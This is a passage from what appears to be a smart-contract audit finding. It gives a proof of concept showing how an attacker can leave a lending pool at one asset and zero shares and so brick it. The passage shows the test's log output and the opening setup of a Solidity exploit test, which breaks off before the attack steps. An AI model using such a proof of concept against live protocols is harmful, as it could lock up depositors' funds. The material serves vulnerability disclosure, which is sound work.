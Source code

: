 ### PoC

The log outputs for the PoC below:
```solidity
  Total Deposit Assets 0
  Total Deposit Shares 0
  Attacker borrows 0
  ================================
  Total Deposit Assets 200000000000000000000
  Total Deposit Shares 200000000000000000000
  Attacker borrows 0
  ================================
  Total Deposit Assets 200000000000000000000
  Total Deposit Shares 200000000000000000000
  Attacker borrows 10000000000000000000
  ================================
  Total Deposit Assets 200000000000000000000
  Total Deposit Shares 200000000000000000000
  Attacker borrows 10000003992699064570
  ================================
  Total Deposit Assets 200000003992699064570
  Total Deposit Shares 200000000000000000000
  Attacker borrows 0
  ================================
  Total Deposit Assets 1
  Total Deposit Shares 0
  Attacker borrows 0
  ================================
```

Which shows the final `Total Deposit Assets 1` and `Total Deposit Shares 0` which bricks the victim pool.

```solidity
function testCanBrickPool() public {
        address attacker = makeAddr("Attacker");
        address victim = makeAddr("Victim");

        MockERC20 borrowAsset = asset1;
        MockERC20 collateralAsset = asset2;
        uint256 amountOfAsset = 1_000 ether;
        uint256 vicPoolId;
        address attPosition;
        bytes memory data;
        Action memory action;

        /**
        * =============================
        *           SETUP
        * =============================
         */
        {
            // == Minting assets to actors
            borrowAsset.mint(attacker, amountOfAsset);
            collateralAsset.mint(attacker, amountOfAsset);

            borrowAsset.mint(victim, amountOfAsset);
            collateralAsset.mint(victim, amountOfAsset);
            // == Finish minting assets

            // == Making the position
            vm.startPrank(attacker);
            bytes32 salt = bytes32(uint256(98));
            address owner = attacker;
            data = abi.encodePacked(owner, salt);
```